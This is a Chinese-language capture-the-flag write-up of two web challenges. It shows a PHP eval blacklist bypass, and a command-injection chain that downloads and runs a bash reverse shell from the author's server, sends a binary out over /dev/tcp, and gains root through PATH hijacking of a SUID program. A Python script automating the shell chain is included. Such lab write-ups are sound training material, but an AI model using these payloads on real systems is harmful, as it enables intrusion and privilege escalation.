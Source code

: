 ```yaml
---
title: 2020BMZctf-Writeup
comments: true
hide: false
date: 2020-12-28 20:47:11
urlname: bmzctf2020
updated:
permalink:
tags:
  - PHP
  - Linux
categories:
  - Write-Up
---
```




## 2020BMZCTF Write-up

随缘做了两道web

昵称：Err0r

<!-- more -->

### WEB

#### WEB_ezeval

源码

```php
<?php

highlight_file(__FILE__);
$cmd=$_POST['cmd'];
$cmd=htmlspecialchars($cmd);
$black_list=array('php','echo','`','preg','server','chr','decode','html','md5','post','get','file','session','ascii','eval','replace','assert','exec','cookie','$','include','var','print','scan','decode','system','func','ini_','passthru','pcntl','open','link','log','current','local','source','require','contents');
$cmd = str_ireplace($black_list,"BMZCTF",$cmd);
eval($cmd);

?>
```

ban了一堆函数，但肯定还有能用的，`<、>、"`因为`htmlspecialchars`也是不能用的

往无参数RCE方向走发现不太可行，最后利用`base_convert`构造语句

把`system`由base36转为base10，利用`base_convert(2146934604002,10,36)`发现可以执行系统命令，于是想读取根目录flag发现`/`传不进去，于是继续`base_convert(16191,10,36)`，利用`chr`函数转换`/`，最终读取flag

payload：`cmd=base_convert(2146934604002,10,36)(base_convert(16191,10,36)(47).flag);`

![image-20201228205633315](bmzctf2020/image-20201228205633315.png)





---

#### WEB_penetration

主要考察反弹shell，提权

打开得源码

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['ip'])){
    $ip = $_GET['ip'];
    $_=array('b','d','e','-','q','f','g','i','p','j','+','k','m','n','\<','\>','o','w','x','\~','\:','\^','\@','\&','\'','\%','\"','\*','\(','\)','\!','\=','\.','\[','\]','\}','\{','\_');
    $blacklist = array_merge($_);
    foreach ($blacklist as $blacklisted) {
        if (strlen($ip) <= 18){
            if (preg_match ('/' . $blacklisted . '/im', $ip)) {
                die('nonono');
            }else{
            exec($ip);
            }
            
        }
        else{
        die("long");
        }
    }
    
}
?>
```

命令执行，`ip`经过blacklist过滤后exec执行，但是测着发现foreach会每次取一位然后来执行，执行多次，也就是说只要不含`b`就可以执行，这里可以直接执行，但限制了18个字符的长度限制发挥，尝试反弹shell，明显反弹shell第一个单词`bash`会被过滤，另寻方法。

首先就执行`find / -name fl*>1`，执行后输出结果到文件1，结果发现根本就没有flag！

测试echo可写，于是准备写个一句话木马，结果发现写的.php不执行，应该是写了规则。

于是准备写个`.htaccess`，结果一写直接500内部服务报错。

老实弹shell吧。

想直接写`bash -i >& /dev/tcp/[ip]/[port] 0>&1`，结果发现`&`写不进去，测试发现靶机可连外网，于是在自己服务器上写个名为1的文件，内容为`bash -i >& /dev/tcp/[ip]/[port] 0>&1`

再在靶机写个文件`1d`，内容为`curl ip/1>1`

运行`sh 1d`，发现不行，估计没有执行权限，赋予，`chmod 777 1d`，靶机运行了curl命令，访问我的服务器下载了文件1，这样就成功写了反弹shell的命令

在我的服务器监听端口，`nc -lvp [port]`

再给1赋予执行权限`chmod 777 1`，需要用bash执行，可是不可以含有`b`，于是利用`?`和`[a-c]`，即执行`/?in/[a-c]ash 1`

我的服务器成功getshell

![image-20201228211635023](bmzctf2020/image-20201228211635023.png)

根目录下没有发现flag，也没有readflag，找也找不到flag，有个`start.sh`，读取一下看看

```sh
www-data@2a4c1fe2f663:/var/www/html$ cat /start.sh
cat /start.sh
#!/bin/bash 

chmod 755 index.php
gcc /root/demo.c -o love
mv love /usr/bin/love
chmod u+s /usr/bin/love

rm /var/log/apache2/access.log
rm /var/log/apache2/error.log
```

关键在这个`/user/bin/love`

读出来看看，服务器开监听端口，靶机shell执行`cat /usr/bin/love > /dev/tcp/[ip]/[port]`

![image-20201228212753119](bmzctf2020/image-20201228212753119.png)

成功拿到文件，拷下来反编译一下(web狗汗颜)

![image-20201228212718787](bmzctf2020/image-20201228212718787.png)

结果就是系统执行个ps命令

结合find发现了的一点东西

![image-20201228211807363](bmzctf2020/image-20201228211807363.png)

`/root`目录没有权限，也许可能考点就是提权了

这是一个具有SUID权限的程序，在tmp目录写个内容为`/bin/bash`的ps文件，添加进环境变量，这样执行程序调用ps命令会优先从这里执行，而这里是我们伪造的ps命令，然后相当于以高级权限执行了`/bin/bash`。

```bash
echo "/bin/bash" > /tmp/ps
chmod 777 ps
echo $PATH
export PATH=.:$PATH
/usr/bin/love
```

成功提权，直接`cat /root/flag`

![image-20201228213633573](bmzctf2020/image-20201228213633573.png)



理解了师傅之前说的，提权，才是开始。

是的，权限真香，这才刚刚开始

后面再研究吧

附上一键弹shell脚本：

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2020/12/26 20:36
@Auth ： gyy
@Blog：http://err0r.top

"""
import requests
baseurl = "http://www.bmzclub.cn:21257/"

def req(url):
    res = requests.get(url).content.decode('utf8')
    return res

def execit(payload):
    url = baseurl+"?ip="+payload
    res = req(url)
    if "long" not in res:
        return 1
    else:
        return 0

def check(url):
    res = req(url)
    print(res)

if __name__ == "__main__":
    payload1 = "curl [ip]/[filename]>1"
    i = 0
    flag = 1
    while i < len(payload1):
        if flag:
            payload = "echo '" + payload1[i:i + 5] + "\c'>1d"
            execit(payload)
            i += 5
            flag -=1
        payload = "echo '"+payload1[i:i+5]+"\c'>>1d"
        execit(payload)
        i +=5
    check(baseurl+"1d")
    # bash -i >& /dev/tcp/[ip]/[port] 0>&1
    execit("chmod 777 1d")
    execit("sh 1d")
    execit("chmod 777 1")
    execit("/?in/[a-c]ash 1")
```





---

### 总结

很有收获，不枉这两题，尤其的第二题，非常有价值。

当然不能小看第一题，别看WP短短几行，背后是无数次的尝试与探索，第二题更是如此。

2020年最后一份WP，还有很长路要走，加油吧。